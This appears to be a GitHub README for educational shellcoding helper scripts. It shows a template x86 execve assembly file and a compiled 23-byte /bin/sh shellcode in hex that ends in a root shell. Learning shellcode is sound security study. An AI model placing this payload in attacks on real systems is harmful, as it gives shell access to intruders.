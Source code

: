 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.  For educational purposes.

- Plans to integrate everything together in the future and pipe to cfuzz.

- Encoding coming eventually? 

##Stringhex
    root@kali:~/shellcoding# stringhex /bin//sh

    Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

    //sh: push 0x68732f2f

    /bin: push 0x6e69622f

    [**] Copy and paste the below directly into the .asm.

        push 0x68732f2f

        push 0x6e69622f

##Newasm
    root@kali:~/shellcoding# newasm test

    root@kali:~/shellcoding# cat test.asm

    global _start

    _start:

        xor eax, eax

        push eax

        ;add your payload here

        push 0x68732f2f

        push 0x6e69622f
####The 2 pushes above we added from stringhex /bin//sh
        mov ebx, esp

        push eax

        ;add your additional argument here

        ;mov ecx, esp

        ;push eax

        ;push ecx

        push ebx

        mov ecx, esp

        mov al, 11

        int 0x80
####If we wanted to add arguments (for example for a /bin/cat shellcode) you'd simply add the argument right after it says ";add your additional argument here" and uncomment the 3 lines after it.


##Chex
    root@kali:~/shellcoding# chex test

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

    Shellcode is 23 bytes long

    root@kali:~/shellcoding# ./test

    # id
    
    uid=0(root) gid=0(root) groups=0(root)

####This automatically compiles your asm file, generates some hex, and gives you the length.
